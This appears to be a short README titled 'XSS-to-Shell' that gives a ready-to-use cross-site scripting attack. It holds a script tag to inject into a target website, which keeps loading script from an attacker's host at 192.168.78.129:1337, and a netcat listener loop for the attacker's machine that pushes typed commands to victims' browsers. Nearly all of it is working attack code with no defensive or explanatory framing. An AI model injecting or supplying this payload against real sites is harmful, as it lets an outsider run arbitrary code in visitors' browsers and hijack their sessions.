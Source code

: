 # XSS-to-Shell

* Website to Attack:

* <script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>


* Attackers Machine:

* while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done
